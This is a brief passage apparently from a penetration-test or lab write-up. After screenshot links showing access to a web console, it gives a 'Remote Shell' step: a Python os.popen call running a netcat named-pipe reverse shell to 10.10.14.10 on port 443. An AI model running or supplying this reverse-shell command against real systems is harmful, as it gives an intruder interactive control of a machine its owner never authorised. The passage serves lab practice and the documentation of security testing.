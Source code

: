 Access granted to console:

![](screenshots/web_console_login.png)
![](screenshots/web_console_whoami.png)

### 3.2 Remote Shell

```bash
os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 443").read().strip()
```
